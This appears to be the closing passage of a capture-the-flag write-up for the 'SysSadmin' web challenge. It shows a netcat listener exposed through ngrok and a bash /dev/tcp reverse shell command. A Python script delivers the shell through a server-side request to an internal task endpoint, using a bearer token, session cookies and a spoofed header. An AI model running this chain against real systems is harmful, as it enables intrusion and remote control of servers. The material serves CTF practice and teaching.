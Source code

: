 - set up a tcp listener on netcat `nc - nlvp 5555`
- make it public using ngrok `ngrok tcp 0.0.0.0:5555`
- get the public ip of the ngrok tunnel using dig `dig [tcp domain provided by ngrok]`
- create the reverse shell command `bash -c "exec bash -i &>/dev/tcp/[ngrok_tcp_ip]/[ngrok_port] <&1"`
- urlencode the command
- send it .
  i sent it using a python script I made:

```
import requests
url = "https://syssadmin.challenge.alphabit.club/api/healthchecker"
headers={
            "Authorization":"Bearer Ax7rWnE5xYp2qAs9Zc4VbGmH3tFnR6uD8iL0oP",
            "content-type":"application/json",
            "X-Forwarded-For":"127.0.0.1"
        }
cookies = {
            "session":"eyJ1c2VyIjoic3lzYWRtaW4ifQ==",
            "session.sig":"dyeH7Et-g9i4HW4gzkpx2N8gUwg"
            }
data = {

    "url":"http://alphabit.localtest.me:3000/api/remote-task-handler?command=bash%20-c%20%22exec%20bash%20-i%20%26%3E%2Fdev%2Ftcp%2F3.125.223.134%2F19253%20%3C%261%22&key.jk=2",

}
r = requests.post(url, cookies=cookies , headers=headers, json=data)
print(r.text)
```

boom you have a reverse shell! navigate to the root and print the flag.

![flag](https://github.com/Ilyeshaddad337/ctfwriteups/blob/795ea1b943dcbffda57cc71d151f2b5996be526b/AlphaCTF_2k_24/web/SysSadmin/assets/9.png?raw=true)
